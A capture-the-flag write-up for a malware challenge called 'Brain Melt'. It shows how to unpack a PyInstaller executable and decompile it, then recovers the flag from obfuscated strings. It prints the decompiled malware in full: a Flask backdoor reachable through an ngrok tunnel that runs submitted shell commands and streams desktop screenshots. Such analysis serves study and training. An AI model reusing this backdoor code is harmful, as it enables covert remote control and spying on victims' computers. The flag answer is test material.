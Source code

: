 ```yaml
---
grand_parent: Categories
parent: Malware
title: Brain Melt
nav_order: 1
---
```


# Brain Melt

```
Have fun and find the flag :)
```

## Challenge

> TL;DR: Extract `.pyc` from executable using `pyinstxtractor`, and decompile `pyc` using `pycdc`.

By running `strings` on the executable, we can see strings of python indicating that this is likely a `PyInstaller` file.

```
zPYZ-00.pyz
'python39.dll
```

First, we extract the compiled python bytecodes using [PyInstaller Extractor](https://github.com/extremecoders-re/pyinstxtractor).

<img src="images/brainmelt-1.png"><br>

Next, as Python 3.9 is used for this executable, the standard `decompyle6` would not work and we will have to use [`Decompyle++`](https://github.com/zrax/pycdc) to decompile the bytecodes. Below is the decompiled source code we get from decompiling `brain-melt.pyc`.

```py
# Source Generated with Decompyle++
# File: brain-melt.pyc (Python 3.9)

from flask import Flask, flash, request, render_template_string, send_file, redirect
from wtforms import Form, TextField, validators, StringField, SubmitField
import subprocess
import pyautogui
import io
import sys
from PIL import Image
from pyngrok import ngrok
import base64
DEBUG = True
app = Flask(__name__)
app.config['SECRET_KEY'] = '9EQrXQ88pwP7UWaXbkmThhKuDdYxsad1'

def decrypt(s1, s2):
    return ''.join((lambda .0: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in .0 ])(zip(s1, s2)))


def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key


def ngrok_tunnel():
    ngrok.set_auth_token(deobfuscate())
    http_tunnel = ngrok.connect(5000, 'http', '-log=stdout > NUL')


def Desktop(pil_img):
    img_io = io.BytesIO()
    pil_img.save(img_io, 'JPEG', 70, **('quality',))
    img_io.seek(0)
    return send_file(img_io, 'image/jpeg', **('mimetype',))


def execute(cmd):
    child = subprocess.Popen(cmd, True, subprocess.PIPE, subprocess.PIPE, **('shell', 'stdout', 'stderr'))


class CommandForm(Form):
    command = TextField('Command:', [
        validators.required()], **('validators',))
    
    def display():
        form = CommandForm(request.form)
        print(form.errors)
        if request.method == 'POST':
            command = request.form['command']
        if form.validate() and request.method == 'POST':
            result = execute(command)
            flash(result)
        else:
            flash('Please enter a command.')
        return render_template_string('<!doctype html>\n                <html>\n                    <head>\n                        <link rel="stylesheet" href="css url"/>\n                            </head>\n                                <body>\n                                    <form action="" method="post" role="form">\n                                        <div class="form-group">\n                                              <label for="Command">Command:</label>\n                                              <input type="text" class="form-control" id="command" name="command"></div>\n                                              <button type="submit" class="btn btn-success">Submit</button>\n                                              </form>\n                                            {% for message in get_flashed_messages() %}\n                                            <p>{{ message }}</p>\n                                            {% endfor %}\n                                            <img src="/images/desktop.jpg" id="img" width="100%" scrolling="yes" style="height: 100vh;"></iframe>\n                                </body>\n                            \n                            {% block javascript %}\n                            <script type="text/javascript">\n                            window.onload = function() {\n                                var image = document.getElementById("img");\n\n                                function updateImage() {\n                                    image.src = image.src.split("?")[0] + "?" + new Date().getTime();\n                                }\n\n                                setInterval(updateImage, 1000);\n                            }\n                            </script>\n                            {% endblock %}\n                            </html>\n                        ', form, **('form',))

    display = app.route('/', [
        'GET',
        'POST'], **('methods',))(display)


def serve_img():
    screenshot = pyautogui.screenshot()
    return Desktop(screenshot)

serve_img = app.route('/images/desktop.jpg')(serve_img)
# WARNING: Decompyle incomplete

```

The flag seems to be obfuscated and can be decrypted and can be printed out using the `decrypt` and `deobfuscate` functions. Just `print` the result from these functions to get the flag.

```py
import base64

def decrypt(s1, s2):
    return ''.join((lambda x: [ chr(ord(c1) ^ ord(c2)) for c1, c2 in x ])(zip(s1, s2)))

def deobfuscate():
    part1 = '2ec7627d{galf'[::-1]
    part2 = str(base64.b64decode('NjIwM2I1Y2M2OWY0'.encode('ascii')), 'UTF8')
    part3 = decrypt('\x17*\x07`BC\x14*R@\x14^*', 'uKeVuzwIexplW')
    key = part1 + part2 + part3
    return key

print(deobfuscate())
```

Flag: `flag{d7267ce26203b5cc69f4bab679cc78d2}`